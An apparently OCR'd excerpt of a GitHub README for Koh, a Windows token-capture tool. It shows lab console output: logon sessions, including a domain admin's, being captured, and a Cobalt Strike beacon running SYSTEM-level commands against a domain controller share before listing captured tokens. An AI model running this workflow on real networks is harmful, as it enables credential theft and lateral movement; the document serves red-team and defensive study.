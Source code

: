 ```

  [*] New Logon Session - 6/22/2022 2:53:01 PM
      UserName              : THESHIRE\testuser
      LUID                  : 207990196
      LogonType             : Interactive
      AuthPackage           : Kerberos
      User SID              : S-1-5-21-937929760-3187473010-80948926-1119
      Credential UserName   : testuser@THESHIRE.LOCAL
      Origin LUID           : 1677733 (0x1999a5)

      [*] Successfully negotiated a token for LUID 207990196 (hToken: 848)


  [*] New Logon Session - 6/22/2022 2:53:01 PM
      UserName              : THESHIRE\DA
      LUID                  : 81492692
      LogonType             : Interactive
      AuthPackage           : Negotiate
      User SID              : S-1-5-21-937929760-3187473010-80948926-1145
      Credential UserName   : da@THESHIRE.LOCAL
      Origin LUID           : 1677765 (0x1999c5)

      [*] Successfully negotiated a token for LUID 81492692 (hToken: 976)


  [*] New Logon Session - 6/22/2022 2:53:01 PM
      UserName              : THESHIRE\harmj0y
      LUID                  : 1677733
      LogonType             : Interactive
      AuthPackage           : Kerberos
      User SID              : S-1-5-21-937929760-3187473010-80948926-1104
      Credential UserName   : harmj0y@THESHIRE.LOCAL
      Origin LUID           : 999 (0x3e7)

      [*] Successfully negotiated a token for LUID 1677733 (hToken: 980)

```

BOF client:

```
beacon> shell dir \\dc.theshire.local\C$
[*] Tasked beacon to run: dir \\dc.theshire.local\C$
[+] host called home, sent: 69 bytes
[+] received output:
Access is denied.

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 20 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> koh list
[+] host called home, sent: 6548 bytes
[+] received output:
[*] Using KohPipe                    : \\.\pipe\imposecost

[+] received output:

Username     : THESHIRE\localadmin (S-1-5-21-937929760-3187473010-80948926-1000)
LUID         : 67556826
CaptureTime  : 6/21/2022 1:24:42 PM
LogonType    : Interactive
AuthPackage  : Negotiate
```